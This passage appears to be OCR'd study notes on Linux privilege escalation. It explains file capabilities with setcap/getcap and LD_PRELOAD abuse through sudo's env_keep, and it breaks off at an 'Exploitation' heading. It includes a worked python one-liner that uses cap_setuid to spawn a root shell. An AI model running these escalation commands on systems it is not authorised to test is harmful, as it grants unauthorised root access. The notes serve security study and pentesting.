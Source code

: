             -   setcap \[cap\_name\]=+ep filename

            -   setcap cap\_net\_bind\_service=+ep filename

            -   The "+ep" means you're adding the capability ("-" would remove it) 

        -   **get file capabilities**

            -   search for files with capabilities   

                -   getcap -r / 2\>/dev/null

            -   get capabilities of a specific file   

                -   getcap \[filename\]

        -   **Ex of priv esc with cap\_setuid capability**

            -   \$ sudo /usr/bin/setcap cap\_setuid+ep /usr/bin/python2.7

            -   \$ python2.7 -c \'import os; os.setuid(0); os.system(\"/bin/sh\")\'

            -   sh-5.0\# whoami

                -   root

-   **LD\_PRELOAD**

    -   **Shared Libraries**

        -   Shared libraries are libraries that are loaded by programs when they start. When a shared library is installed properly, all programs that start afterward automatically use the new shared library. 

    -   **Shared Libraries Names**

        -   Every shared library has a special name called the "soname". The soname has the prefix "lib", the name of the library, the phrase \`".so", followed by a period and a version number.The dynamic linker can be run either indirectly by running some dynamically linked program or shared object. The programs **ld.so **and **ld-linux.so\* **find and load the shared objects (shared libraries) needed by a program, prepare the program to run, and then run it.

    -   **LD\_PRELOAD** is an optional environmental variable containing one or more paths to shared libraries, or shared objects, that the loader will load before any other shared library including the C runtime library (libc.so) This is called preloading a library.

    -   To avoid this mechanism being using as an attack vector for *suid/sgid* executable binaries, the loader ignores *LD\_PRELOAD* if *ruid != euid*. For such binaries, only libraries in standard paths that are also *suid/sgid* will be preloaded.

    -   **Finding the vulnerability**

        -   if you find inside the output of ***sudo -l*** the sentence: ***env\_keep+=LD\_PRELOAD*** and you can call some command with sudo, you can escalate privileges.

            -   user\@debian:\~\$ sudo -l

            -   Matching Defaults entries for user on this host:

            -   env\_reset, env\_keep+=LD\_PRELOAD   

    -   **Exploitation**

